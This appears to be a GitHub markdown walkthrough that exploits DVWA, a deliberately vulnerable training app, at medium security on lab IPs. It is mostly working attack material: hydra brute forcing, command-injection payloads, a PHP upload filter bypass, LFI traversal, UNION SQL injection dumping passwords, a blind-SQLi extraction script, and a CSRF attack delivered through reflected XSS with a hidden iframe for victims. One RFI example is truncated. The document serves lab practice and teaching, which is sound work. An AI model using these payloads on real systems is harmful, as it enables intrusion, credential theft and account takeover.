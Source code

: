 
### Target

    https://github.com/ethicalhack3r/DVWA

    Security level: medium

### Prereq

    # get user token
    $ TOKEN=$(curl -c dvwa.session -s http://192.168.56.101/DVWA/login.php | grep 'user_token' | awk -F 'value=' '{print $2}' | cut -d"'" -f2)

    # get session id
    $ PHPSESSID=$(grep PHPSESSID dvwa.session | awk -F' ' '{print $7}')

    # log in
    $ curl -L -b "PHPSESSID=${PHPSESSID};security=medium" -v -d "username=admin&password=password&Login=Login&user_token=${TOKEN}" http://192.168.56.101/DVWA/login.php

### Brute Force

    $ wget https://raw.githubusercontent.com/seifreed/dirb/master/wordlists/others/best110.txt

    $ hydra -t 8 -l admin -P best110.txt -vV 192.168.56.101 http-get-form "/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:F=password incorrect:H=Cookie: PHPSESSID=${PHPSESSID};security=medium"

### Command Injection

```
# '\n' as a bash commands separtor
$ curl -s -b "PHPSESSID=${PHPSESSID};security=medium" -d 'ip=%0auname+-a&Submit=Submit' http://192.168.56.101/DVWA/vulnerabilities/exec/index.php | grep Linux    

OR

# '&' as a bash commands separtor
$ curl -s -b "PHPSESSID=${PHPSESSID};security=medium" -d 'ip=%26uname+-a&Submit=Submit' http://192.168.56.101/DVWA/vulnerabilities/exec/index.php | grep Linux    
```

### File Upload

**Vuln:** insufficient file type validation - looking only at filetype controlled by the user ($_FILES['userfile']['type'])

**Exploitation**

```
cat > b.php <<EOF
<?php phpinfo(); ?>
EOF

curl -x 127.0.0.1:8080 -L -b "PHPSESSID=${PHPSESSID};security=medium" -F "MAX_FILE_SIZE=100000" -F "uploaded=@b.php;type=image/jpeg;filename=b.php" -F "Upload=Upload" http://192.168.56.101/DVWA/vulnerabilities/upload/index.php

curl -s -b "PHPSESSID=${PHPSESSID};security=medium" http://192.168.56.101/DVWA/hackable/uploads/b.php
```

### File Inclusion

**Vuln:** insufficient input validation

**Exploitation**

```
# LFI:
$ curl -L -b "PHPSESSID=${PHPSESSID};security=medium" -v http://192.168.56.101/DVWA/vulnerabilities/fi/?page=..././..././hackable/flags/fi.php

# RFI payload example:
hTTp://
```

### Sql Injection

**Vuln:** incorrect use of mysqli_real_escape_string function: now quotes are used so input is treated as integer

Payload to retreive users password fields:

```
1 union select Password, User from users#
```

**Exploitation**

```
$ curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=medium" "http://192.168.56.102/DVWA/vulnerabilities/sqli/index.php" -d 'id=1+union+select+Password%2CUser+FROM+users%23&Submit=Submit'
```

### Sql Injection (Blind)

**Vulnerability**

Payloads:

```
true condtion: 1 and 1=1#
false condition: 1 and 1=0#
```

**Exploitation**

Manual:

```
# dependency:
https://stackoverflow.com/questions/296536/how-to-urlencode-data-for-curl-command

# true condition:
curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=medium" "http://192.168.56.102/DVWA/vulnerabilities/sqli_blind/index.php" -d "id=$(rawurlencode "1 and 1=1#")&Submit=Submit"

# false condition:
curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=medium" "http://192.168.56.102/DVWA/vulnerabilities/sqli_blind/index.php" -d "id=$(rawurlencode "1 and 1=0#")&Submit=Submit"
```

Retreiving DBMS version PoC:

```
cat > poc.py <<EOF
"""
example output of @@version: 5.7.16-0ubuntu0.16.04.1

first find length of the @@version string:
1 and length(@@version)=7#

iterate thru printable ASCII and retreive @@version string
1 and ascii(substring(@@version,1,1))=0x35#
"""

import requests
import string
from urllib import quote, unquote

proxies = {
    "http" : "http://127.0.0.1:8080/"
}

# initiate HTTP session
session = requests.Session()
session.cookies['security'] = 'medium'
session.cookies['PHPSESSID'] = 'sg9087bvkh5pu14tarpakuqf25'

u = 'http://192.168.56.102/DVWA/vulnerabilities/sqli_blind/index.php'

# find length of @@version string
for i in xrange(1, 30):
    payload = "1 and length(@@version)=" + str(i) + "#"
    params = {'id': payload, 'Submit': "Submit"}
    resp = session.post(u, data=params, proxies=proxies)

    if resp.text.find("MISSING") == -1:
        len = i
        break

# retreive @@version string
version=""
for i in xrange(1, len + 1):
    for c in string.printable:
        payload = "1 and ascii(substring(@@version,{0},1))={1}#".format(i, hex(ord(c)))
        params = {'id': payload, 'Submit': "Submit"}
        resp = session.post(u, data=params, proxies=proxies)

        if resp.text.find("MISSING") == -1:
            print payload
            version += c

print version
EOF
```

### CSRF

XSS vulnerability on the DVWA site (for example this in `http://192.168.56.102/DVWA/vulnerabilities/xss_r`) needs to be used in order do defeat `Referer` check:

```
# trick victim to visit (while logged in to DVWA) the following:
http://192.168.56.102/DVWA/vulnerabilities/xss_r/?name=%3C/pre%3E%3CScRiPt%3Enew%20Image().src=%22http://192.168.56.102/DVWA/vulnerabilities/csrf/?password_new=pass2%26password_conf=pass2%26Change=Change%22%3C%2Fscript%3E%3Cpre%3E#

OR

# trick victim to visit 3rd party site (while logged in to DVWA) with already planted iframe:
<iframe SRC='http://192.168.56.102/DVWA/vulnerabilities/xss_r/?name=%3C/pre%3E%3CScRiPt%3Enew%20Image().src=%22http://192.168.56.102/DVWA/vulnerabilities/csrf/?password_new=pass3%26password_conf=pass3%26Change=Change%22%3C%2Fscript%3E%3Cpre%3E#' height="0" width="0"></iframe>
```

### XSS (Reflected)

    http://192.168.56.102/DVWA/vulnerabilities/xss_r/?name=%3C/pre%3E%3CScRiPt%3Ealert(1)%3C%2Fscript%3E%3Cpre%3E#

### XSS (DOM)

Payload that ilustrates vulnerability (this time filtering is done on server side so we use anchor '#' to prevent it from sending to the server:

    English#<script>alert(1);</script>

Or do not use 'script' tags:

    English</option></select><img src='x' onerror='alert(1)'>

## XSS (Stored)

Payload for `txtName` field: `<sCript>alert(2)</sCript>`
